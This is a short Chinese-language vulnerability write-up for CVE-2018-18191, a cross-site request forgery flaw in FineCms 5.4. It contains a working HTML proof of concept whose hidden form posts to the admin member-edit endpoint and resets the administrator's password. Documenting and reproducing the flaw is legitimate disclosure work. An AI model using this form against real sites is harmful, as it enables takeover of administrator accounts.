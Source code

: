 （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞
==========================================

一、漏洞简介
------------

Dayrui
FineCms是中国天睿（Dayrui）程序设计团队发布的一套使用MVC架构和PDO数据库接口开发的内容管理系统（CMS）。
Dayrui FineCms
5.4版本中的/admin.php?c=member&m=edit&uid=1存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

二、漏洞影响
------------

Finecms 5.4

三、复现过程
------------

### poc

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
          <input type="hidden" name="page" value="0" />
          <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
          <input type="hidden" name="member&#91;name&#93;" value="admin" />
          <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
          <input type="hidden" name="member&#91;password&#93;" value="888888" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
